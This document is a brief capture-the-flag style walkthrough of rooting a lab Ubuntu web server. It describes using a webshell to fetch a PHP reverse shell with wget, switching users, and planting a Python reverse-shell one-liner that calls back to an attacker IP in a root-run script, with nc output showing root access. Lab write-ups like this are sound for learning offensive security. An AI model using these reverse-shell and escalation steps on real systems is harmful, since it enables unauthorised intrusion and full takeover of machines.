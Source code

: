 [Walthrough Video - YouTube](https://www.youtube.com/watch?v=2DqdPcbYcy8&list=PLidcsTyj9JXK-fnabFLVEvHinQ14Jy5tf&index=1)

- ubuntu xenial 16.04 based on httpd version 2.4.18
- used the webshell built into the web server to get a php reverse shell
	- built a php rev shell and used wget on victim's machine to download and run it
- initial user `www-data`
	- `sudo -u scriptmanager bash`: to change user to `scriptmanager` which is another user on the machine
	- `python -c  'import pty;pty.spawn('/bin/bash')'`: to get a nicer shell
- `/scripts` folder contains `test.py` and `test.txt` 
	- `test.txt` is being written every minute by root user
- write the following into `test.py`
```python
import socket,os,pty;s=socket.socket();s.connect(('10.10.14.18',7778));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/sh');
```
- listen on `7778` on attacker's machine and get a root shell!
```
$ nc -nvlp 7778                           
listening on [any] 7778 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.68] 36552
# whoami
whoami
root
```